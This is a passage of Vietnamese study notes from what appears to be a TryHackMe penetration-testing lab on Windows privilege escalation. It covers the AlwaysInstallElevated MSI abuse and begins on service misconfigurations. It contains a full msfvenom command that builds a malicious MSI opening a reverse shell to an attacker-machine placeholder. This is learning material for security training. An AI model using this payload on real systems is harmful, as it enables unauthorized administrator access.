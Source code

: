 
**AlwaysInstallElevated**

Leo Thang Đặc Quyền Qua Tệp Cài Đặt MSI

Tệp .msi (Windows Installer) được sử dụng để cài đặt ứng dụng trên Windows. Mặc định, chúng chạy với quyền của người dùng thực thi. 

Tuy nhiên, nếu được cấu hình với quyền cao hơn, bất kỳ tài khoản nào (kể cả không có đặc quyền) cũng có thể chạy tệp MSI với quyền quản trị. Điều này cho phép tạo một tệp MSI độc hại để leo thang đặc quyền.

Phương pháp này yêu cầu phải đặt hai giá trị đăng ký. Có thể truy vấn chúng từ dòng lệnh bằng các lệnh bên dưới:

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image181.png?raw=true)

Để có thể khai thác lỗ hổng này, cần phải thiết lập cả hai. Nếu không, việc khai thác sẽ không thể thực hiện được. Nếu những điều này được đặt, có thể tạo tệp .msi độc hại bằng cách sử dụng msfvenom, như bên dưới:

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi

Vì đây là một reverse shell, nên chạy mô-đun Metasploit Handler được cấu hình tương ứng. Khi đã chuyển tệp đã tạo, có thể chạy trình cài đặt bằng lệnh bên dưới và nhận reverse shell: 

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image182.png?raw=true)

**Task 5: Abusing Service Misconfigurations - Lạm dụng cấu hình sai dịch vụ**

**Windows Services**

Các dịch vụ Windows được quản lý bởi Service Control Manager (SCM), chịu trách nhiệm:

- Quản lý trạng thái dịch vụ.
- Kiểm tra trạng thái hiện tại của dịch vụ.
- Cấu hình dịch vụ khi cần thiết.

Mỗi dịch vụ có một tệp thực thi liên quan được SCM khởi chạy khi dịch vụ bắt đầu. Tuy nhiên, các tệp này có chức năng đặc biệt để giao tiếp với SCM, vì vậy không thể chạy trực tiếp như một dịch vụ thông thường.

Ngoài ra, mỗi dịch vụ chạy dưới một tài khoản người dùng cụ thể, xác định quyền hạn của nó trong hệ thống.

Kiểm tra cấu hình dịch vụ **apphostsvc** bằng lệnh ***sc qc***:

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image183.png?raw=true)